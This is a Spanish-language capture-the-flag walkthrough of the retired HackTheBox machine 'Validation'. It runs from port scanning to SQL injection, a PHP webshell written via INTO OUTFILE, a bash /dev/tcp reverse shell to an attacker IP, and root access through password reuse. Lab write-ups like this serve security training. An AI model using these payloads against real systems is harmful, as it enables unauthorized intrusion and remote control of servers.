


------------------


Validation es una maquina de dificultad fácil que se encuentra retirada en la plataforma de HackTheBox donde se puede explotar SQL Injection mediante esto veremos que con SQL tenemos capacidad de escritura por lo que nos dejara escribir una webshell. Para escalar a root es sencillo ya que se usa reutilización de contraseña

--------------
# Reconocimiento
Comienzo con un nmap para saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 20:16 -03
Initiating SYN Stealth Scan at 20:16
Scanning 10.10.11.116 [65535 ports]
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 20:17, 18.58s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.19s latency).
Scanned at 2024-08-27 20:16:51 -03 for 19s
Not shown: 55715 closed tcp ports (reset), 9816 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares 

Veo que los puerto abiertos son el 22,80,4566,8080 por lo tanto voy hacer un escaneo mas exhaustivo 
```bash
❯ nmap -p22,80,4566,8080 -sCV 10.10.11.116 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 20:22 -03
Nmap scan report for 10.10.11.116
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- *-p22,80,4566,8080*: Le indicamos que queremos escanear los puerto 22,80,4566,8080
- *sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80,4566 y 8000
- *oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap
Veo que por el puerto 22 esta `SSH` que nos reporta el condéname(8.2p1 Ubuntu 4ubuntu0.3) de Ubuntu y gracias a esto puedo descubrir que estamos frente a un `Ubuntu focal`, mas de eso por aquí no puedo hacer nada, en el puerto 80 veo que hay una pagina web, con `whatweb` voy a ver las tecnologías que corren por detrás de esta pagina web
```bash
❯ whatweb http://10.10.11.116
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```
Veo que por detrás esta PHP por lo tanto si encuentro la manera de subir un archivo PHP malicioso podría obtener una webshell.

### Identificación de SQLI
En la pagina web veo un campo donde puedo introducir datos, en este caso veo que me pide un nombre de usuario


veré que pasa si introduzco el nombre de usuario admin 


Al darle a `Join Now`veo en la pagina `Welcome admin` y que agrega el usuario que le indique, veré como es que se esta tramitando esta solicitud atreves de burpsuite


Intercepte la solicitud veo que se esta envíando una solicitud con metodo `POST` `/` esto redirige a `/account.php` por lo tantoveo que si ejecuta PHP, intentare una injeccion SQLI en el parametro username


Veo que esto en la pagina web me lo interpreta sin problema y me lo agrega como si fuera otro usuario


Al probar con usuario admin y colocando la comilla en country 


En la web veo que me quita el usuario admin por lo tanto puedo aprovecharme de esto y ver si me devuelve un error pero puedo suponer que la query se esta enviando de la siguiente manera
```SQL
select username from players where country = '[input]';
```

### SQL Injection - User www-data


Entonces al probar con un ordenamiento de datos por la primera columna pasa lo mismo


Al intentar hacer un ordenamiento de datos por la segunda columna veo el error por lo tanto puedo determinar que solo tiene una columna 


Al hacer `union select` veo que me refleja el 1 de la unión por lo tanto a partir de aquí ya puedo empezar utilizar union select para ver los datos que yo quiero 


Primero veré como se llama la base de datos en uso, veo que es `registratrion` veré si existen otras bases de datos


Hay cuatro bases de datos , pero solo `registration`es interesante ya que las otras son propias de SQL, por lo tanto veré cuantas tablas tiene registration 


Veo que solo existe una sola tabla para esta base de datos ahora intentare ver las columnas para esta tabla


Veo que tiene 4 columnas y las que me llaman la atención son `username,userhash` 


Veo el hash y los usuarios pero por lo visto son los usuarios que ingrese anteriormente por lo tanto esto no me lleva a mucho


Intentare con `into outfile` ver si tengo la capacidad de escribir un archivo y depositarlo en una ruta, gracias al error provocado anteriormente pude ver la ruta `/var/www/html/` entonces intentare cargarlo en esa ruta, la pagina me muestra un error


Pero veo que el archivo si me lo crea
- *Esto se debe a que el usuario tiene el permiso FILE por lo tanto se puede usar el comando load_file() e into outfile estos comando basicamente permiten leer o escribir archivos en el sistema de archivos del servidor donde se ejecuta la base de datos MySQL*


Por lo tanto como la pagina interpreta PHP, cargare una webshell

```php
' union select "<?php system($_GET['cmd']);?>" into outfile"/var/www/html/test.php"-- -
```


Veo el error nuevamente pero ahora efectivamente me lo creo y me lo interpreta


Por lo tanto lo único que me queda hacer es enviarme una revershell con el tipico oneliner
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.16.6/443 0>%261"
```


Me pongo en escucha con por el puerto 443 y recibo la revershell



Hago un tratamiento de la TTY
```bash
www-data@validation:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ stty rows 28 columns 129
```
Me dirijo a `/home` y veo que puedo ingresar en el directorio `/htb` en el cual puedo visualizar la flag del usuario, ahora vere la manera de escalar privilegios 

```bash
www-data@validation:/home/htb$ cat user.txt 
***************2ee7409
```
### Root
veo que en `/var/www/html` existe un archivo `config.php` el cual contiene credenciales 


Pero por lo que veo no existe otro usuario que no sea root por lo tanto la password tiene que ser de root



Efectivamente la password es de root por lo tanto ya puedo visualizar la flag de root
```bash
www-data@validation:/home/htb$ su root
Password: 
root@validation:/home/htb# cd /root
root@validation:~# cat root.txt 
*********************c0d17e
root@validation:~# 
```

